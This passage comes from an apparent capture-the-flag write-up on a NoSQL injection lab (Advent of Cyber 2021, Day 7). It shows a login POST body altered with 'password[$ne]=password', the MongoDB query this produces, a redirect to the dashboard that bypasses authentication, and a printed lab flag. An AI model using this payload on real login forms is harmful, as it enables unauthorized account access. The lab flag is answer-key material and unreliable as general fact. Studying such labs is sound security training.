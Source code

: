 ![Injection at Password](AoC-2021_Photos/Day_07/7.0_AoC-Day-7_12-27-21-Altering-Password-Field.png)

This essentially turns the `POST` request into 

```
# Browser
username=admin&password[$ne]=password

# Backend
db.users.findOne({username:"admin", password:{"$ne":"password"}})
```

Send the modified request, and you'll see the response changes. We are given a `302 Found` response, indicating a redirect, and a new message body indicating we have access to the `/dashboard` page now. Looks like a success! 

![Redirect to Dashboard](AoC-2021_Photos/Day_07/8.0_AoC-Day-7_12-27-21-Redirect-to-Dashboard.png)


[^1]: #nosql #injection #webapp #database #burp 
[^2]: *Flag 1:* THM{8814a5e6662a9763f7df23ee59d944f9}   